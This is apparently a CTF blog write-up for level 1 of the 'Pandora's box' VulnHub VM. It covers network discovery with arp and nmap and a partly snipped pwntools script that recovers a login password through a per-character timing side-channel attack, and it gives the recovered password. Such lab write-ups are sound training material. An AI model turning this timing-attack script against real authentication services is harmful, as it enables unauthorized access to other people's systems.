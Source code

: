 ### Pandoras box Level *1* of *5*

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link]() booting up the ova file in to VM ware player we have

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<p><h5>That eureker moment!!!</h5></p>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)

		if first:
			min_diff = ttt
			first = False
	
		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
			
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://Cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

-The script sets the IP address `(ip)` and port number `(port)` for the remote server.
-The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
-The script establishes a connection to the remote server using `p = remote(ip, port)`.
-The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
-The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
-The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
-After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
-If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
-The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif)

<p><h5>Running the script</h5></p>

This the final password:

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
